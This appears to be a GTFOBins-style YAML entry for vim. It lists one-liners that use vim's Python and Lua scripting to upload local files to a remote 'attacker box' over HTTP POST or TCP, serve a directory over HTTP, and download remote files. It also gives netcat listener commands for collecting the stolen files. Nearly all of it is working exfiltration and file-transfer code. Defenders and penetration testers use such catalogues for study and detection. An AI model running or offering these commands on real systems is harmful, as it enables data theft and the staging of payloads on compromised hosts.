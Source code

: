 ```yaml
---
functions:
  file-upload:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$RPATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        vim -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
          t:send(d);
          t:close();'
  server:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
  file-download:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$RPATH"], e["$LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("$LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("$NFILE"), "wb");
          f:write(d);
          io.close(f);'
---
```

